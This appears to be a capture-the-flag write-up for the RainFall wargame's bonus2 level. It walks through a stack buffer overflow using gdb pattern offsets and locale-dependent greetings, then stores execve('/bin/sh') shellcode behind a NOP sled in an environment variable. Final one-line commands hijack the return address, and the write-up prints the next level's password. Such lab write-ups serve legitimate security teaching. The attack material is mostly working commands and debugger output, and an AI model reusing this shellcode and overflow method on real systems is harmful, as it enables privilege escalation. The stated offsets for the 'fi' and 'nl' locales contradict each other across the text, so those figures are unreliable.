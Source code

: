 First we want to know how the buffer is write in this program with the default LANG:

bonus2@RainFall:~$ export LANG="en"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
(gdb) i r
eax            0x4f	79
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x39614138	0x39614138
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x8006241	0x8006241			--> We look at the eip, we don t see any pattern... 
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We tryed to put 0x08006241 in the https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
But nothing...

bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
																	   ----
																	our pattern	

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
(gdb) i r
eax            0x5b	91
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x35614134	0x35614134
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x41366141	0x41366141		--> 41 = A, 36 = 6, 61 = a, 41 = A (A6aA   --> reverse this = Aa6A) : We have a pattern
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We have a padding of 18 for LANG="fi" (Calculated with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator).
But you can calcute by hand :
a0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
<--------------->|
	17 bytes	 18eme byte



OK find the same this for the other : LANG="nl" 

bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
																	        ----
																			our pattern
Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
(gdb) i r
eax            0x56	86
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x61413661	0x61413661
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x38614137	0x38614137			--> 38 = 8 , 61 = a, 41 = A, 37 = 7 (8aA7 --> in reverse = 7Aa8) : We have a pattern
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We have a padding of 18 for LANG="nl" (Calculated with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator).

Now like in the bonus0, we are going to put our shellcode in the environnement variable SHELLCODEINJECTION.
We need to find where this environnement variable is in the stack :

export SHELLCODEINJECTION=$(python -c 'print "\x90"*128 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) 
(gdb) run
Starting program: /home/user/bonus2/bonus2 
Breakpoint 1, 0x0804852f in main ()
(gdb) (gdb) x/s *((char **)environ+1)
Undefined command: "".  Try "help".
(gdb) x/s *((char **)environ+1)
0xbffff877:	 "TERM=xterm-256color"
(gdb) x/s *((char **)environ)
0xbffff867:	 "SHELL=/bin/bash"
(gdb) x/30s *((char **)environ)
0xbffff867:	 "SHELL=/bin/bash"
0xbffff877:	 "TERM=xterm-256color"
0xbffff88b:	 "SSH_CLIENT=192.168.56.1 50140 4242"
0xbffff8ae:	 "SSH_TTY=/dev/pts/0"
0xbffff8c1:	 "USER=bonus2"
0xbffff8cd:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffff995:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffa5d:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffb25:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffbed:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffcb5:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffd7d:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffdee:	 "COLUMNS=134"
0xbffffdfa:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe47:	 "MAIL=/var/mail/bonus2"
0xbffffe5d:	 "_=/usr/bin/gdb"
0xbffffe6c:	 "PWD=/home/user/bonus2"
0xbffffe82:	 "LANG=fi"
0xbffffe8a:	 "LINES=32"
0xbffffe93:	 										--> our shellcode address	"SHELLCODEINJECTION=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v\315\200"
0xbfffff3f:	 "HOME=/home/user/bonus2"
---Type <return> to continue, or q <return> to quit---
0xbfffff56:	 "SHLVL=1"
0xbfffff5e:	 "LOGNAME=bonus2"
0xbfffff6d:	 "SSH_CONNECTION=192.168.56.1 50140 192.168.56.3 4242"
0xbfffffa1:	 "LESSOPEN=| /usr/bin/lesspipe %s"
0xbfffffc1:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
0xbfffffe3:	 "/home/user/bonus2/bonus2"
0xbffffffc:	 ""
0xbffffffd:	 ""
0xbffffffe:	 ""


0xbffffe93 in little endian = \x93\xfe\xff\xbf

Now we have our two offset for nl (18) and fi (23)
So we can overflow the buffer in greetuser function with the address of the shellcode + 18 or 23.
We just have to put 40 bytes or more for the first argument, and adjust the second argument depending on the LANG variable.

Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab		(fi)
<-----------><--------------------------------------><------------------------------>
	13 bytes 				40 bytes						32 bytes

13 + 40 + 32 = 85 bytes --> We can write 85 bytes in the buffer.

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab		(nl)
<-----------><--------------------------------------><------------------------------>
	13 bytes				40 bytes						32 bytes

So same thing for nl, we can write 85 bytes in the buffer.



We now that in the greetuser function the buffer is :
char var_4c[72]; ---> 0x080484a2 <+30>:	lea    -0x48(%ebp),%eax		--> -72 bytes
So we have 72 bytes, but we can write 85, so we can overwrite the buffer, and put our shellcode with no problem.
	
./bonus2 $(python -c 'print "A" * 60') $(python -c 'print "B" * 18 + "\x93\xfe\xff\xbf"')		--> fi
./bonus2 $(python -c 'print "A" * 60') $(python -c 'print "B" * 23 + "\x93\xfe\xff\xbf"')		--> nl

$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
